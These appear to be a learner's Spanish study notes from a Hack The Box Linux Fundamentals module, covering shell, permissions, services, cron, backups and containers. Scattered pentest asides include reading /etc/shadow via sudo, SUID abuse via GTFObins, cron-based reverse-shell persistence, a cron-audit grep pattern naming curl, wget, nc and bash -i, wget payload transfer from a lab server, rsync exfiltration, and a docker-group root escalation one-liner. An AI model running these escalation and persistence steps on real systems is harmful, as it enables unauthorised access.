

>[!NOTE]- Módulo en progreso (5/8 secciones de Workflow). Notas de lo completado.

## 1. Introducción

### Estructura de Linux

- Todo es un **árbol que nace en** **`**/**`** (raíz) — no hay unidades tipo C:\
- Estructura estándar (FHS): `/home` usuarios · `/etc` configuración · `/var` datos variables (logs, mail) · `/root` home del admin · `/bin`, `/sbin` binarios
- Ruta mental del descubrimiento: `find` por nombre → convenciones FHS → config en `/etc` → `man`


### Distribuciones

- Familias: **Debian/Ubuntu** (Kali, Parrot, Pwnbox) · **RHEL** (CentOS, Fedora) · **Arch**
- Todas comparten el kernel Linux; difieren en gestor de paquetes y filosofía

### El shell

- Shell = intérprete de comandos (bash es el estándar)
- Terminal ≠ shell ≠ consola: la terminal es la ventana, el shell es el programa que habla
- El prompt: `usuario@host:~$` — el `$` = usuario normal, `#` = **root** (¡ese símbolo es una alarma de cuidado!)

## 2. The Shell

### Prompt

- `usuario@maquina:ruta$` — leerlo antes de ejecutar algo me dice QUIÉN y DÓNDE soy

### Getting Help

- `man <comando>` — manual completo (q salir, / buscar dentro)
- `<comando> --help` — resumen rápido
- La ayuda está en el sistema: no necesito internet para aprender un comando

### System Information (lo que usé en mi sesión SSH)

|Comando|Me dio|
|---|---|
|`uname -r`|versión del kernel (4.15.0)|
|`id`|uid, gid, grupos|
|`whoami`|htb-student|
|`ps`|mis procesos (con TTY y PID)|

## 3. Workflow (8/8)

### Navegación

- `pwd`, `ls -la` (ocultos incluidos), `cd` (~ home · - anterior · .. subir)
- `ls -la` en `/home` me reveló otros usuarios: cry0l1t3, mrb3n → eso ES reconocimiento

### Archivos y directorios

- touch, mkdir, cp, mv, rm (sin papelera), `file` (el tipo real, no la extensión)

### Edición

- nano (Ctrl+O / Ctrl+X) · vim (i / Esc / :wq / :q!)
- En servidores remotos a menudo solo hay vim: saber los 4 comandos básicos = sobrevivir

### Búsqueda (find)

- `find / -name X 2>/dev/null` — el 2>/dev/null oculta "Permission denied" de carpetas ajenas
- `-type f|d`, `-size`, `-perm` (¡-4000 SUID = oro en escalada!), `-user`
- `which <comando>` — dónde está un binario

### Descriptores y redirección

- stdin=0, stdout=1, stderr=2
- `>` sobrescribe · `>>` agrega · `2>` errores · `2>&1` junta todo · `<` entrada · `|` pipe · `tee` (pantalla + archivo) · `/dev/null` (agujero negro)

### Filter Contents(completada 2026-10-25)
El pipeline de 4 verbos que me llevó toda una tarde entender:

|Verbo|Comando|Hace|
|---|---|---|
|extraer|`grep -o`|imprime SOLO el match, no la línea|
|excluir|`grep -v`|invierte: quita lo que coincide|
|regex extendida|`grep -E`|habilita `?`, `+`, `()` sin escapar|
|deduplicar|`sort -u`|ordena y quita repetidos|
|contar|`wc -l`|cuenta líneas|

**Patrones que aprendí destripando comandos:**

- `https?://` → la `s` es opcional (0 o 1 vez)
- `[^"[:space:]<>]+` → "cualquier cosa que NO sea comilla, espacio, `<` o `>`" — `[:space:]` es clase POSIX = todo whitespace
- `^...$` → anclas inicio y fin de línea (coincidencia exacta)
- `X?` → X opcional
- `\.` → punto literal (sin escape, `.` = cualquier carácter)
- `sed 's|viejo|nuevo|'` → reemplaza texto

**El patrón mental clave:** `extraer (grep -o) → transformar (sed) → deduplicar (sort -u) → contar (wc -l)`. Casi todo análisis de texto en HTB es esa cadena.

### Expresiones regulares(RegEx)

> RegEx = planos de busqueda de patrones de texto.  No busca texto literal, busca
> **Estructura**: "una palabra que empiece con X", "3 digitos seguidos de una letra". Vive en `grep`, `sed`, `awk` y casi todos los lenguajes.

**Meta caracteres de agrupacion:**

| Operador | Nombre | Que hace? |
|----------|--------|-----------|
| `(a)` | grupo | agrupa patrones para procesarlos juntos |
| `[a-z]` | clase de caracteres | Lista de caracteres basicos en esa posicion |
| `{1, 10}` | cuantificador | repite el patrón de busqueda `N` veces (como un rango) |
| `a\|b` | operador `OR` | coincide si aparecen a `O` b |
| `a.*b` | operador `AND` | coincide si aparecen a `Y` b |

**Ejemplos**

```bash
# OR: líneas con "my" O "false"
grep -E "(my|false)" /etc/passwd

# AND: líneas con "my" Y "false" (en ese orden)
grep -E "(my.*false)" /etc/passwd

# AND equivalente con dos greps encadenados
grep -E "my" /etc/passwd | grep -E "false"
```

### Manejo de Permisos

> Permisos = llaves. Cada archivo/directorio tiene **dueño (user)** y **grupo**, y para cada uno se definen r/w/x. El usuario puede pertenecer a varios grupos y hereda sus derechos.

**La tríada rwx (y el octal detrás):**

| Permiso | Letra | Valor |
|---|---|---|
| Read | r | 4 |
| Write | w | 2 |
| Execute | x | 1 |

`chmod 754 shell` → `7`=rwx (dueño), `5`=r-x (grupo), `4`=r-- (otros). Octal = suma de bits (111=7, 101=5, 100=4).

```bash
`usuario@linux[/linux]$ ls -l /etc/passwd 

- rwx rw- r--   1 root root 1641 May   4 23:42 /etc/passwd
- --- --- ---   |  |    |    |   |__________| |

| |   |   |     |  |    |    |        |_ Fecha
| |   |   |     |  |    |    |__________ Tamaño del archivo
| |   |   |     |  |    |_______________ Grupo
| |   |   |     |  |____________________ Usuario
| |   |   |     |_______________________ Número de enlaces duros
| |   |   |_ Permisos de otros (lectura)
| |   |_____ Permisos del grupo (lectura, escritura)
| |_________ Permisos del propietario (lectura, escritura, ejecución)
|____________ Tipo de archivo (- = Archivo, d = Directorio, l = Enlace, ... )
```

**Sintaxis simbólica de chmod:**
```bash
chmod u+x script.sh   # dueño: +ejecutar
chmod g-w archivo     # grupo: -escribir
chmod a+r shell       # todos: +leer   (u=owner, g=group, o=others, a=all)
chmod 754 shell       # equivalente octal
```
**Dueño y grupo:**
```bash
chown root:root shell    # cambia user y grupo a la vez
```
**Regla de oro que el módulo subraya:**

>[!NOTE] **Execute en un DIRECTORIO ≠ ejecutar archivos.** Es permiso para 
>**atravesar** el directorio. Sin x en el directorio: "Permission denied" aunque tengas `r`
> sobre el contenido. Para crear/borrar/renombrar dentro: necesitas **`w` sobre el 
> directorio**.

**Permisos especiales (el oro del pentester):**

|Bit|En `ls -l`|Efecto|Riesgo|
|:--|:--|:--|:--|
|**SUID** (4000)|`-rwsr-xr-x`|el binario corre como SU DUEÑO (¿root?)|si el programa puede lanzar shell → root directo(escalar privilegios)|
|**SGID** (2000)|`-rwxr-sr-x`|corre como su GRUPO|idem con grupos privilegiados|
|**Sticky** (1000)|`drwxrwxrwt`|en directorio compartido: solo el dueño del archivo puede borrarlo|defensa, no ataque|
- SUID/SGID son "pases temporales de acceso": útiles para tareas del sistema, letales si el admin los pone indiscriminadamente (ej: SUID en `journalctl` → shell como root)
    
- **`t` minúscula** = sticky + execute presente · **`T` mayúscula** = sticky SIN execute (nadie atraviesa ni ejecuta ahí)
    
- Referencia de binarios abusables: [**GTFObins**](gtfobins.github.io)

## 4. Manejo del sistema 

### Manejo de Usuarios

> Admin de usuarios = asignar llaves. Crear cuentas, meterlas en grupos con acceso a recursos, y ejecutar comandos como otro usuario cuando la tarea lo pide.

**Elevación de privilegios:**

| Comando | Qué hace |
|---|---|
| `sudo <cmd>` | ejecuta UN comando como otro usuario (default: root) |
| `su [-] [user]` | cambia DE USUARIO completo (abre shell; `-` = login shell con su entorno; sin user = root) |
| `sudo -i` / `sudo su` | sesión root completa (mismo efecto práctico) |


**Gestión de cuentas:**

| Comando | Qué hace |
|---|---|
| `useradd -m -s /bin/bash alex` | crea usuario (con home y shell) |
| `userdel -r alex` | borra usuario y su home |
| `usermod -aG developers alex` | agrega usuario a grupo (`-a` = append, sin él REEMPLAZA los grupos ⚠️) |
| `addgroup developers` / `delgroup` | crear/eliminar grupos |
| `passwd alex` | cambiar contraseña (root la cambia sin saber la vieja) |

**El ejemplo del módulo (y su lectura ofensiva):**
```bash
cat /etc/shadow          # Permission denied (solo root)
sudo cat /etc/shadow     # Nos deja tods hashes a la vista
```

### Manejo de paquetes

> Repaso: Ya conozco conceptos de esta seccion pero anotar por si se me olvida :D.

**Lo que ya sabía (repaso):**
- Qué es un paquete: archivo con binarios, configuraciones, metadatos de dependencias, control de updates
- Qué hace un package manager: descargar, resolver dependencias, instalar/eliminar, calidad/estándares etc...
- `apt` = front-end de alto nivel para Debian (el "npm/apt de sistema"); resuelve dependencias automáticamente descargándolas del repo
- `apt install <pkg> -y` · `apt remove` · `apt update && apt full-upgrade` (mi alias `update`)
- `git clone <url> ~/carpeta` → bajar tools desde GitHub (flujo clásico de HTB; ejemplo del módulo: Nishang de samratashok)
- `pip` (Python) y `gem` (Ruby) = package managers de ecosistemas de lenguaje (regla mental: igual que npm, pero para el runtime, no el SO)
- Repos: distribuciones mantienen repos centralizados, etiquetados stable/testing/unstable; el sistema consulta ahí al instalar/actualizar
- `apt list --installed` → inventario de paquetes instalados

**Lo que NO sabía / no tenía claro:**
- `dpkg` = la herramienta de BAJO nivel: instala .deb sueltos pero **NO resuelve dependencias** — si falta algo, `sudo dpkg -i tool.deb` falla o deja el sistema roto hasta `sudo apt -f install` (fix broken)
- Flujo completo de .deb a mano (ejemplo del módulo con strace):
```bash
wget http://.../strace_4.21-1ubuntu1_amd64.deb    # 1. descargar el .deb
sudo dpkg -i strace_4.21-1ubuntu1_amd64.deb       # 2. instalarlo
strace -h                                          # 3. probarlo
```

### Servicios y manejo de procesos

Servicios, conocidos en linux cotidianamente como `daemons` son componentes fundamentales en linux que corren en segundo plano y son esenciales para mantener el SO funcionando correctamente tanto como para habilitar funciones especificas que necesite el usuario.

Podriamos decir que exiten dos tipos, los de **sistema** ( que arrancan con el SO, hardware/init, Ej: como el motor de  un carro) y los de **usuario** (apps servidor instaladas después, Ej: como el aire acondicionado). El "d" final del nombre lo delata: `sshd`, `systemd`.

**Lo que ya saba (repaso):**
- `systemctl start|stop|restart|status <svc>` — control básico (me sonaba de Docker como levantar o bajar contenedores)
- `ps aux | grep X` — encontrar procesos (ya lo usé con ProFTPd)
- `kill <PID>` básico
- `;` separa comandos sin importar errores · `&&` encadena (lo uso en git) · `|` pipe (mi herramienta favorita ya que es lo mas practico )

**Lo que no sabía, un refuerzo importante:**
- `systemctl enable <svc>` / `disable` : arrancar o no  **en el boot**. `enable ≠ start`: enable marca para el arranque, start lo corre ahora. (Pentest: `systemctl enable backdoor` = persistencia en el objetivo)
- `systemctl list-units --type=service`: listar todos los servicios (crucial para hacer reconocimiento de X o Y sistema)
- `journalctl -u <svc> --no-pager`: logs del servicio. MISMO instinto que mi saga del boot: cuando algo no arranca, su log dice por qué.
- Estructura: PID (cada proceso), PPID (padre → procesos hijos), `/proc/<PID>/` (info en vivo)
- **Señales (la tabla que valía la pena):**

| Señal       | #   | Cuándo                                       |
| ----------- | --- | -------------------------------------------- |
| SIGHUP      | 1   | la terminal controladora se cerró            |
| SIGINT      | 2   | Ctrl+C (interrumpir)                         |
| SIGQUIT     | 3   | Ctrl+D                                       |
| **SIGKILL** | 9   | matar YA, sin limpieza (procesos congelados) |
| SIGTERM     | 15  | terminación amable (default de `kill`)       |
| SIGSTOP     | 19  | congelar, no manejable                       |
| SIGTSTP     | 20  | Ctrl+Z (suspender, sí manejable)             |

- **Job control (flujo completo):** `Ctrl+Z` suspende (no mata) → `jobs` lista → `bg` lo manda a background corriendo → `fg <id>` lo trae al frente · `comando &` = directo a background desde el inicio
- `pkill -f <nombre>` / `killall <nombre>` / `pgrep <nombre>` → matar/buscar por nombre sin buscar el PID
- Zombie: proceso muerto que sigue en la tabla (hijo que nadie recogió)
- `&&` exacto: si un comando FALLA, los siguientes no corren (`a && b` = b solo si a salió bien). `;` sigue siempre

** Typeo del módulo incorrecto:** el ejemplo dice `kill 9 <PID>` — la forma estándar y portable suele ser  **`kill -9 <PID>`** (con guión). Confiando pero verificando, también el material oficial.

**La conexión con mi lab de FTP:** aquel día me toco usar 2 terminales (una de control y una de datos). Con job control lo hago en 1: lanzo `nc <ip> <puerto>`, `Ctrl+Z`, `bg`, abro lo demás, y `fg` cuando lo necesite. Mismo principio para un listener de netcat corriendo en background mientras exploto.

### Programacion de tareas


**¿Qué es la programación de tareas?**

Es la como decirle al sistema "ejecuta esto, solo, sin que yo lo dispare, a esta hora o este dia o cada tanto". Como la cafetera programable: la configuras una vez y cada mañana hay café sin que toques nada. En Linux sirve para actualizaciones automáticas, backups, mantenimiento de bases de datos, scripts periódicos, cualquier tarea repetitiva que debe ocurrir con confiabilidad.

**Por qué importa en ciberseguridad?:** yo lo definiria como una herramienta legítima de administración que  a su vez es un vector de ataque al mismo tiempo. Un atacante puede esconder tareas programadas que ejecutan scripts maliciosos o mantienen una puerta trasera viva a intervalos. Saber cómo funciona = saber auditarlo (detectar cron jobs sospechosos) y saber usarlo (persistencia en un sistema comprometido).

En Linux hay 2 sistemas para esto: **systemd timers** (el moderno) y **cron** (el clásico).

---

#### Systemd Timers (el método moderno)

Cuatro piezas que trabajan juntas:

**1. Crear el timer** (el "cuándo") — `/etc/systemd/system/mytimer.timer`:
```ini
[Unit]
Description=My Timer

[Timer]
OnBootSec=3min          # corre 3 minutos después del boot
OnUnitActiveSec=1hour   # y luego cada hora

[Install]
WantedBy=timers.target
```

- `OnBootSec` → ejecuta UNA vez X tiempo después de encender.
- `OnUnitActiveSec` → ejecuta cada vez que pasa X intervalo (repetición).

**2. Crear el service** (el "qué") — `/etc/systemd/system/mytimer.service`:
```ini
[Unit]
Description=My Service

[Service]
ExecStart=/ruta/completa/al/script.sh

[Install]
WantedBy=multi-user.target
```

- `multi-user.target` = el estado normal del sistema multiusuario (el "modo estándar de arranque").
- 
**3. Recargar systemd** (paso que todos olvidamos jeje) :
```bash
sudo systemctl daemon-reload
```

Si no hacemos esto, systemd simplemente no "ve" los archivos nuevos que acabas de crear. No da error: simplemente ignora tus timers. 

**4. Activar:**
```bash
sudo systemctl start mytimer.timer    # arrancarlo ahora
sudo systemctl enable mytimer.timer   # que sobreviva al reboot
```

#### Cron (el método clásico)

Un solo archivo (el **crontab**) con 5 columnas de tiempo + el comando:

```plain
┌───────── minuto (0-59)
│ ┌─────── hora (0-23)
│ │ ┌───── día del mes (1-31)
│ │ │ ┌─── mes (1-12)
│ │ │ │ ┌─ día de la semana (0-7, donde 0 Y 7 = domingo)
│ │ │ │ │
* * * * *  /ruta/al/comando.sh
```

Reglas de los valores:
- `*` = "todos los valores posibles"
- `*/N` = "cada N" (ej: `*/6` en horas = cada 6 horas)
- número exacto = "solo ese"
Ejemplos del módulo, desglosados:

```cron
0 */6 * * *   /scripts/update.sh     # minuto 0, cada 6 horas → 4 veces al día
0 0 1 * *     /scripts/monthly.sh    # 00:00 del día 1 de cada mes
0 0 * * 0     /scripts/sunday.sh     # 00:00 cada domingo
0 0 * * 7     /scripts/also-sun.sh   # idem (7 también es domingo)
```
Comandos para manejar mi crontab:
```bash
crontab -e    # editar (crea el archivo si no existe)
crontab -l    # listar MIS tareas programadas
```

Las tareas del sistema viven aparte: `/etc/crontab`, `/etc/cron.d/`, `/etc/cron.daily/`...

#### Systemd vs Cron — la diferencia en una frase

> Cron, yo lo llamaria como un archivo de texto que dice cuándo correr cosas. Systemd timer es mas como 2 archivos (el **"timer"** para el "cuándo" y el **"service"** para el "qué") más una activación explícita. Cron es más simple; systemd es más flexible (dependencias, logs vía journalctl, eventos etc..).

#### El ángulo seguridad (por qué esta sección existe en un curso de hacking?)

- **Persistencia del atacante:** Muchas veces el objetivo que tiene un hacker o cracker es mantener acceso al sistema que vulnero entonces una tarea programada hace que el acceso resucite solo. Ejemplo clásico: reverse shell que se reconecta cada 5 minutos:
```bash
crontab -l                          # tareas del usuario actual
ls -la /etc/cron*                   # TODO lo programado del sistema
cat /etc/crontab
grep -rE "curl|wget|nc|bash -i" /etc/cron*   # ¿algo descarga y ejecuta?
```
- En máquinas de HTB es un patrón clásico: un cron corre como root un script que cualquiera puede escribir luego editas el script, esperas el minuto y bum eres root.

### Trabajando con servicios web

**Lo que ya sabía (repaso):**
- Apache/nginx/IIS = web servers; Apache es modular (mod_ssl = cifrado, mod_proxy = redirección/traffic controller, mod_headers, mod_rewrite) — mismo concepto que mis configs de nginx como reverse proxy
- Apache sirve contenido estático y dinámico (PHP, Perl, Ruby, Python...)
- Puerto HTTP por defecto: 80; verificar con `curl -I http://localhost` → headers `200 OK`
- `curl <url>` → la página va a **stdout** (ya lo viví a fondo en la saga del 34)
- `wget <url>` → **descarga y guarda** el archivo localmente
- `python3 -m http.server` → web server instantáneo (¡literalmente mi alias `serve`! escucha en 0.0.0.0:8000 y loguea cada request)

**Lo que NO sabía / detalles nuevos:**
- `apache2ctl` existe como comando de control; el binario `apache2` a secas NO se usa directo (las variables de entorno de la config default lo requieren). Para arrancar: `systemctl start apache2` (ya lo manejo)
- Cambiar el puerto de Apache: editar **`/etc/apache2/ports.conf`** → `Listen 8080` → restart. (En el Pwnbox el 80 está ocupado por otro servicio — por eso 8080)
- La distinción formal **curl vs wget**: curl = transferir/inspeccionar (stdout, testeo); wget = descargar (guarda a disco, "download manager"). En HTB casi siempre curl para mirar, wget/curl para traer cosas
- `python3 -m http.server` **también es un logger**: cada GET queda impreso en tu terminal con IP, path y código de respuesta

** El ángulo pentest (el verdadero valor de esta sección):**
> `python3 -m http.server` es LA herramienta de transferencia de archivos post-explotación:
> 1. En tu máquina: `serve 8000` dentro de la carpeta con tus payloads
> 2. En el target comprometido: `wget http://10.10.14.X:8000/shell.sh` o `curl -o shell.sh http://...`
> 3. Tu terminal te muestra EN VIVO cuándo el target jaló el archivo (el log)
>
> Y curl es tu "browser de terminal" para inspeccionar apps web antes de atacar: ver código fuente, headers (`-I`), enviar datos (`-d`), custom User-Agent (`-A`) — este último ya lo viví a mano con netcat en el lab de FTP.

**Conexión con mi historial:** el serve() que hice como función hace dos días es exactamente el tool que esta sección presenta. Y el User-Agent custom del lab FTP es `curl -A "Server Administrator"` automatizado. Todo conecta.

### Backup y restauracion

**Lo que ya sabía (repaso):**
- Conceptos de backup: full vs incremental, por qué transferir solo lo cambiado es eficiente (mismo principio que git con los deltas)
- SSH con llaves: `ssh-keygen` + copiar la pública al servidor = login sin password (ya lo uso con GitHub)
- Cron para automatizar (sección anterior)
- Cifrado de respaldos como idea (y LUKS ya lo viví con mi USB cifrada)

**Lo que NO sabía / refuerzo:**
- **`rsync` es EL tool de backup en Linux**, y sus flags:
```bash
rsync -av /origen/ user@server:/destino/     # -a = archive (preserva permisos, timestamps, owners) · -v = verbose
rsync -avz origen/ destino/                 # -z = compresión en tránsito
rsync -av --delete origen/ destino/           # --delete = borra en destino lo que ya no existe en origen (espejo exacto)
rsync -avz -e ssh origen/ user@server:/destino/   # por SSH (cifrado en tránsito)
```
- **Las tres opciones del ecosistema:**
    - **rsync** → transferencias delta (solo lo que cambió), local o remoto
    - **duplicity** → rsync + **cifrado del backup** (sirve para respaldar en servidores/cloud no confiables: S3, FTP ajeno)
    - **deja dup** → GUI amigable (para gente que no quiere terminal)    
    - cifrado extra posible con GnuPG, eCryptfs o LUKS
        
- **El patrón auto-sync** (conecta TRES secciones en una): script con rsync + SSH sin password (key-based) + cron:

```bash
ssh-keygen -t rsa -b 2048          # 1. llave sin passphrase (para automatizar)
ssh-copy-id user@backup_server     # 2. instalar la pública en el destino
# 3. script con el rsync + chmod +x
# 4. crontab: 0 * * * * /ruta/RSYNC_Backup.sh
```

El detalle clave: **la llave sin passphrase** — necesaria para que cron corra solo sin humano que escriba password. (Trade-off de seguridad que ya conoces: llave sin passphrase = quien robe tu llave entra sin fricción. Mi backup del header LUKS tiene el mismo dilema guardado en el portátil.)

**El ángulo pentest:**

- **Exfiltración:** rsync es una herramienta clásica de exfiltración en máquinas comprometidas — un atacante con acceso puede `rsync` tus datos a su servidor tan eficientemente como un admin hace backups. ¿Por qué importa? Porque detectar rsync inusual en un host (procesos, conexiones salientes) es una señal de SOC.
    
- **Recon:** los backups son un desastre de seguridad cuando se hacen mal — archivos `.bak`, copias de `/etc/shadow`, dumps de DB en directorios web... en HTB es un vector clásico: `find / -name "*.bak" 2>/dev/null`
    
- **Persistencia otra vez:** cron + script + rsync = canal encubierto que sincroniza datos cada hora. La auditoría de `/etc/cron*` que anoté en Task Scheduling es exactamente la defensa.

### Manejo de archivos del sistema

**Lo que ya sabía / ya lo viví con las manos:**
- Tipos de FS: ext4 (default moderno, journaling), ext2 (viejo, sin journal, útil en USBs), NTFS (compat dual-boot), XFS (archivos grandes, alto I/O), Btrfs (snapshots, integrity checks)
- Journaling = registro de cambios que permite recuperarse de crashes (por eso ext4 > ext2)
- Jerarquía, archivos, directorios, symlinks (`ln -s` — ya lo uso para wordlists)
- **fdisk** → ya lo usé para crear sdb3 en mi USB (particionar es vivido, no leído)
- **mount/umount** → monté mi volumen LUKS en /mnt/kali_persistence (¡esto exactamente!)
- Swap = extensión de RAM en disco; hibernación guarda el estado ahí

**Lo que NO sabía / refuerzo:**
- **INODES el concepto  mas nuevo y diria que importante de la sección.** Cada archivo/directorio tiene un inode: estructura con sus metadatos (permisos, dueño, tamaño, timestamps) y punteros a los bloques de datos en disco. El **inode table** = la base de datos del kernel con TODOS los inodes. La analogía del módulo: los inodes son las fichas del catálogo de la biblioteca; el libro (los datos) está en otro lado.
  - `ls -il` → muestra el número de inode (la `i`) junto a cada archivo
  - **Caso clásico de producción:** un disco puede quedarse sin inodes ANTES de quedarse sin espacio → `df -i` muestra el uso de inodes (millones de archivos pequeños vacíos te agotan la tabla aunque el disco esté "vacío")
- Tipos de archivo desde `ls`: regular, directorio, `l` = symlink (la primera letra de `ls -l`)
- **`lsof`** → qué procesos tienen archivos abiertos / qué está usando un FS (imprescindible antes de `umount`: "target is busy" = algo lo tiene abierto → `lsof | grep <punto_montaje>` → matar el proceso → umount)
- **`/etc/fstab`** → qué se monta automático al boot; opción `noauto` para evitar el montaje automático; mejor usar `UUID=` que `/dev/sdX` (los nombres cambian entre boots — ya lo viví cuando mi USB pasó de sdb a sda)
- Swap con mkswap + swapon (crearlo en vivo); recomendación del módulo: **cifrar el swap** (datos sensibles pueden caer ahí temporalmente — conecta con mi interés en privacidad)

** El ángulo pentest:**
- **Forense/recuperación:** los inodes son la base de la recuperación de archivos borrados (el nombre muere, el inode y sus bloques siguen hasta que se reutilicen). Herramientas de forense trabajan sobre eso
- **Swap = fuga de datos:** contraseñas y claves de sesiones pueden terminar en swap sin cifrado → en máquinas comprometidas, analizar swap es vector real; como defensa: swap cifrado
- **Montar imágenes de disco** (mount -o loop) para inspeccionar dumps forenses — mismo mount que domino, aplicado a evidencia
- En HTB: discos/montajes ocultos, `/etc/fstab` mal configurado con opciones peligrosas (`user`, `exec` en particiones que no deberían)

### Contenerizacion

**Lo que ya sabía (repaso, soy dev con Docker):**
- Container vs VM: el container comparte el **kernel del host** (por eso es ligero); la VM virtualiza hardware entero
- Imagen (template read-only) vs container (proceso corriendo de esa imagen)
- Flujo completo: `Dockerfile` → `docker build -t nombre .` → `docker run -p 8022:22 -p 8080:80 -d nombre`
- Docker Hub (registry público/privado), layers, `docker ps` / `stop` / `start` / `rm` / `rmi` / `logs`
- Containers stateless: los cambios en un container corriendo MUEREN al pararlo → persistencia con **volumes**
- Docker Compose / Kubernetes para orquestar múltiples containers
- Namespaces + cgroups como base del aislamiento (conceptualmente)

**Lo que NO sabía / refuerzo:**
- **LXC (Linux Containers)** — la tecnología anterior/paralela: containers de SISTEMA (mini-VMs ligeras) vs Docker de APLICACIÓN. LXC usa cgroups + namespaces directamente del kernel

| | LXC | Docker |
|---|---|---|
| Enfoque | sistema completo | app/microservicio |
| Imagen | manual (rootfs a mano) | Dockerfile estándar |
| Portabilidad | baja (ligada al host) | alta (registries) |
| Curva | más admin Linux | user-friendly |
| Seguridad default | menor | mayor (AppArmor/SELinux, fs read-only) |

- Comandos LXC:
```bash
sudo lxc-create -n linuxcontainer -t ubuntu     # crear desde template
lxc-ls                                          # listar
lxc-start -n X / lxc-stop -n X                  # control
lxc-attach -n X                                 # shell dentro
lxc-info -n X                                   # estado, PID, IPs
lxc-console -n X                                # consola tipo serial
```

- **Config por container:** `/var/lib/lxc/<nombre>/config` (los templates globales viven en `/usr/share/lxc/config/` — no confundir)
- **Límites de recursos (cgroups) en el config:**
```bash
lxc.cgroup.cpu.shares = 512                  # default 1024 → 512 = la mitad del CPU
lxc.cgroup.memory.limit_in_bytes = 512M      # tope de RAM
```

- `lxc-cgroup -n X cpu.shares 512` → límite EN VIVO sin reiniciar (temporal)
- Bind mount container-host: `lxc.mount.entry = /host/path /container/path none bind,create=dir 0 0` en el config + restart
- Hardening LXC: restrict access (SSH solo de IPs confiables), resource limits, aislamiento, MAC (AppArmor/SELinux), mantener actualizado
    
** El ángulo pentest (la razón de que esté en este curso):**

- **El grupo `docker` ES root** — ya lo sabía de nuestro día DevSecOps, el módulo lo confirma: "both Docker and LXC can present a vector for local privilege escalation". Si comprometes un usuario que está en el grupo docker → `docker run -v /:/hostfs ubuntu chroot /hostfs` = root en el host
- **Container escape:** un container mal configurado (--privileged, socket montado, kernel viejo con CVEs de namespaces) = salto al host. Es una categoría entera de ataque
- **El Dockerfile del módulo es un caso de uso real de ataque/defensa:** un container Apache+SSH como "file hosting" para transferir archivos a targets (scp dentro, wget desde el target — la versión Dockerizada de mi `serve`)
- **Lab seguro:** probar exploits/malware en containers aislados sin riesgo para la máquina anfitriona (por eso mi Kali con VMs/USB también aplica esta lógica)
    
- Defensa: detectar `docker` en grupos de usuarios normales (`grep docker /etc/group`) es auditoría básica

## 5. Redes en linux o linux networking 

Como pentesters, considero que una de las habilidades mas escenciales que se debe desarrollar es configurar y manejar redes en sistemas linux. Perfeccionar esto nos permite testear entornos de manera mas eficiente, manipular el trafico de las redes y identificar vulnerabilidades para explotar entre otras cosas.


#### A. Configuración de interfaces (repaso + detalles finos)

**Ver estado:**
```bash
ifconfig              # legible, ampliamente usado, pero DEPRECADO
ip addr               # el moderno (iproute2); también: ip a
```
Ojo a los `altname` que muestra `ip` (enp0s3/ens3): el kernel tiene nombres predecibles nuevos, pero el sistema sigue exponiendo eth0.

**Activar/desactivar y asignar:**
```bash
sudo ifconfig eth0 up                        # activar (o: ip link set eth0 up)
sudo ifconfig eth0 192.168.1.2               # asignar IP
sudo ifconfig eth0 netmask 255.255.255.0     # máscara
sudo route add default gw 192.168.1.1 eth0   # gateway por defecto
```
**DNS:** `/etc/resolv.conf` → `nameserver 8.8.8.8`.  **NO PERSITENTE**: NetworkManager/systemd-resolved lo re-escriben solos. Patrón que se repite en Linux moderno: el archivo parece editable, pero otro servicio es el dueño real (igual que localectl/hostnamectl).

**Persistencia real (estática clásica):** `/etc/network/interfaces`:

```plain
auto eth0
iface eth0 inet static
  address 192.168.1.2
  netmask 255.255.255.0
  gateway 192.168.1.1
  dns-nameservers 8.8.8.8 8.8.4.4
```

Luego se ejecuta  `sudo systemctl restart networking` para aplicar los cambios. (En sistemas con NetworkManager  como mi Kali  esto NO aplica, en este la config va por nmcli/GUI. Dos mundos: ifupdown clásico vs NetworkManager moderno.)

####  Modelos de control de acceso a red (NAC)

**DAC (Discretionary):** el **dueño** del recurso decide quién entra (chmod/rwx — mi mundo Unix). Flexible, pero el usuario puede compartir de más.
**MAC (Mandatory):** el **sistema** decide con etiquetas: cada recurso tiene un _security label_, cada usuario/proceso un _clearance_. Acceso solo si `clearance ≥ label`. Militar/gobierno/salud/finanzas. Más seguro, menos flexible. Implementaciones: SELinux, AppArmor.
**RBAC (Role-Based):** permisos dependen de **rol/puesto**, no por persona ni por archivo. "Los DBAs pueden X". Escalable para organizaciones grandes; facilita admin (cambias de rol, no revisas miles de ACLs).
 **En resmen:**
**Mnemotecnia:** DAC = El dueño decide · MAC = La máquina decide · RBAC = El rol decide.

#### C. Monitoreo de red
|Herramienta|Para qué|
|---|---|
|`syslog` / `rsyslog`|logs del sistema centralizados|
|`ss`|socket statistics (reemplazo moderno de netstat)|
